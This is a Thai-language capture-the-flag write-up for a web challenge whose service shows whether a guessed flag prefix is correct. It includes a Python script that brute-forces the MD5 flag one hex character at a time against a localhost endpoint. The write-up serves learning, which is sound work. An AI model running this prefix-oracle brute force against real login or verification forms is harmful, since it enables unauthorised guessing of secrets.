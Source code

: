 # Partial Flag Check Service

Tag: `web`

โจทย์ข้อนี้เราต้องเด่าว่า flag คืออะไร โดยที่มีคำใบ้ว่าเราสามารถที่จะเดาที่ละตัวแล้วตรวจสอบว่า flag นั้นถูกต้องไหม โดยที่ภายใน flag คือ md5

## Screen

![2-2-1.png](./images/2-2-1.png)

เมื่อกรอกผิด

![2-2-2.png](./images/2-2-2.png)

เมื่อเรากรอกถูกส่วนหนึ่ง

## Solving

จากการทดลองกรอก flag pattern เราพบว่า เป็นไปตามที่โจทย์อธิบาย

ความน่าจะเป็นของ md5 ที่ยาว 128 bits คือ $2^{128}$ ซึ่งเยอะมาก แต่โจทย์ได้ให้คำใบ้โดยการสามารถตรวจสอบได้ที่ละตัวอักษร เลยเหลือความน่าจะเป็นเพียง $16\cdot32$

เพื่อความรวดเร็วในการหาคำตอบที่ถูกต้องเราจึงเลือกที่จะเขียน script ในการ brute force

```py
import requests

URL = "https://localhost"

headers = {"Content-Type": "application/x-www-form-urlencoded"}
count = 0
flag = "FLAG{"
chars = "0123456789abcdef"

for _ in range(32):
    for c in chars:
        count += 1
        test = flag + c
        print(test)
        res = requests.post(URL, data={"password": test}, headers=headers).text
        if "Correct!" in res:
            flag = test
            break
        elif "Incorrect!" in res:
            continue
        else:
            flag = test
            break

print(flag + "}")
print(count)
```

## Result

![2-2-3](./images/2-2-3.png)

![2-2-4](./images/2-2-4.png)
